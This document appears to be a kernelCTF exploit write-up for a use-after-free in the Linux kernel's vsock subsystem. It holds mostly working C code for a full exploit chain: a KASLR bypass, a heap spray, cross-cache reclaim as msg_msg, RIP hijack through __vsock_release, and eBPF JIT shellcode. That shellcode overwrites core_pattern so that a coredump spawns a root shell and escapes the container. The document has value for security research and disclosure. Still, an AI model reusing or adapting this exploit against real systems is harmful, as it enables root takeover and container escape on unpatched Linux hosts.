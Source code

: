 # Vulnerability

This vulnerability occurs in the Linux kernel's vsock subsystem, specifically due to improper handling of socket bindings during transport reassignment. When a vsock is created and bound (either explicitly via bind() or implicitly via autobind during a connection), improper reference count management leads to premature removal and deallocation of the socket (use-after-free). Specifically, the kernel incorrectly removes and decreases `struct sock`'s reference count without ensuring it was properly bound, resulting in `struct sock` being freed prematurely. Consequently, further access to this freed `struct sock` causes a use-after-free condition, potentially allowing attackers to exploit freed `struct sock`.


# Exploit Tech Detail
The exploit is consist in the following steps
* EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
* Spray as many anonymous memory as possible to full the kernel heap memory
* Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`
* Call __vsock_release to RIP Control
* Achieve container escape.

## EntryBleed: Breaking KASLR under KPTI with Prefetch (CVE-2022-4543)
This technique we used to bypass KASLR.  This technique we're able to predict/guess the physmap address of the anonymous memory in kernel heap. You can find the details about this technique [here](https://www.willsroot.io/2022/12/entrybleed.html).

## Spray as many anonymous memory as possible to full the kernel heap memory

```C
// Spray as many anonymous memory as possible to full the kernel heap memory
int spray_anon_map()
{
	size_t *addr = SYSCHK(mmap(0, 0x30000000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANON, -1, 0));
	for (int i = 0; i < 0x30000000 / 8; i++)
	{
		addr[i] = 0xffffffffcc000000 - 0x800;
	}
}
```

We implements a memory spraying technique to exhaust kernel heap memory by allocating a large anonymous shared memory region (0x30000000 bytes, approximately 768 MB) using the mmap system call. It fills this allocated memory with a specific kernel-space address (0xffffffffcc000000 - 0x800), which is our guessd ebpf address


## Use cross-cache tech to reclaim freed `struct sock` as `struct msg_msg`

With cross-cache tech, we can reclaim victim skb as msg_msg which is under `kmalloc-cg-1024` cache like following example code.

* Allocate a lot sock between victim
```c
	// Allocate some `struct sock` before victim
	for (int i = 0; i < 0x100; i++)
		cross[i] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	fd = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

	// Allocate some `struct sock` after victim
	for (int i = 0; i < 0x100; i++)
		cross[i + 0x100] = SYSCHK(socket(AF_VSOCK, SOCK_STREAM, 0));

```

* Free them all and reclaim as msg_msg
```c

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i]);

	vsock_connect_fd(fd, VMADDR_CID_HOST, VMADDR_PORT_ANY);

	// free all `struct sock`
	for (int i = 0; i < 0x100; i++)
		close(cross[i + 0x100]);

	for (int i = 0; i < 0x4000; i++)
		SYSCHK(msgsnd(msqid[i], &msg, KMALLOC_CG_1k - KMALLOC_CG_1k, 0));


## RIP Control
We set `vsk->transport` to our guessed kernel heap which contents is our guessed ebpf address.

```c
static void __vsock_release(struct sock *sk, int level)
{
	if (sk) {
		struct sock *pending;
		struct vsock_sock *vsk;

		vsk = vsock_sk(sk);
		pending = NULL;	/* Compiler warning. */

		/* When "level" is SINGLE_DEPTH_NESTING, use the nested
		 * version to avoid the warning "possible recursive locking
		 * detected". When "level" is 0, lock_sock_nested(sk, level)
		 * is the same as lock_sock(sk).
		 */
		lock_sock_nested(sk, level);

		if (vsk->transport)
			vsk->transport->release(vsk);
```


## Achieve container escape
### Spray eBPF programs

We use the same tech as mention in https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-36972_lts_cos/docs/exploit.md#achieve-container-escape

Our goal is to do some eBPF JIT spraying so later when we control kernel RIP, it will jump to the JIT page and execute our shellcode.

Linux kernel provide a socket option `SO_ATTACH_FILTER` and let user to attach a classic BPF program to the socket for use as a filter of incoming packets.

By creating lots of sockets and attach to classic BPF program, we can spray a lot of eBPF programs in kernel.
```cpp
    struct sock_fprog prog = {
        .len =  TSIZE,
        .filter = filter,
    };
    for(int i=0;i<NUM;i++){
        int fd[2];
        SYSCHK(socketpair(AF_UNIX,SOCK_DGRAM,0,fd));
        SYSCHK(setsockopt(fd[0],SOL_SOCKET,26,&prog,sizeof(prog)));
    }
```

As for the shellcode in our eBPF program, our goal is to overwrite  `/proc/sys/kernel/core_pattern` so later we can execute command as root by triggering crash. Here's what our shellcode did to achieve our goal:
* Use the `rdmsr` instruction to obtain the kernel text address. With RCX being set to MSR_LSTAR ( `0xc0000082` ), we'll be able to obtain the address of `entry_SYSCALL_64`.
* Calculate the address of `core_pattern` and `_copy_from_user`.
* Call `_copy_from_user(core_pattern, user_buf, 0x30);`, where `user_buf` is a buffer in user space that stores the content we want to overwrite in `core_pattern`. 

We construct our eBPF program with the following form:

```cpp
struct sock_filter table[] = {
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        {.code = BPF_LD + BPF_K, .k = 0xb3909090},
        .....................
};
```

The above example will be compiled into the following instructions after JIT:

```
b8 90 90 90 b3    mov eax, 0xb3909090
b8 90 90 90 b3    mov eax, 0xb3909090
```

If we can control kernel RIP to jump into the NOP instruction ( 0x90 ), the code will become:

```
90       nop 
b3 b8    mov    bl, 0xb8
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
....
```

We can see that by using an extra byte `0xb3`, we can skip the useless byte `0xb8` and execute our own shellcode. Notice that due to the "skipping part", we only have 3 bytes of space in each instruction, so we'll have to take care of that as well during our shellcode construction.

### Post RIP

Once we control the kernel RIP and jump into the middle of our eBPF program, the shellcode we crafted will cause core_pattern being overwritten to `|/proc/%P/fd/666 %P %P`:

We then use memfd and write an executable file payload in fd 666.
```C
int check_core()
{
	// Check if /proc/sys/kernel/core_pattern has been overwritten
	char buf[0x100] = {};
	int core = open("/proc/sys/kernel/core_pattern", O_RDONLY);
	read(core, buf, sizeof(buf));
	close(core);
	return strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0;
}
void crash(char *cmd)
{
	int memfd = memfd_create("", 0);
	SYSCHK(sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff));
	dup2(memfd, 666);
	close(memfd);
	while (check_core() == 0)
		sleep(1);
	puts("Root shell !!");
	/* Trigger program crash and cause kernel to executes program from core_pattern which is our "root" binary */
	*(size_t *)0 = 0;
}
```

Later when coredump happened, it will execute our executable file as root in root namespace:
```C
*(size_t*)0=0; //trigger coredump
```

Spawn shell when coredump happened. This is the code looks like:
```c++

		// #define SYS_pidfd_getfd 438
		int pid = strtoull(argv[2], 0, 10);
		int pfd = syscall(SYS_pidfd_open, pid, 0);
		int stdinfd = syscall(SYS_pidfd_getfd, pfd, 0, 0);
		int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
		int stderrfd = syscall(SYS_pidfd_getfd, pfd, 2, 0);
		dup2(stdinfd, 0);
		dup2(stdoutfd, 1);
		dup2(stderrfd, 2);
		/* Get flag and poweroff immediately to boost next round try in PR verification workflow*/
		system("cat /flag;echo o>/proc/sysrq-trigger");
		execlp("bash", "bash", NULL);

```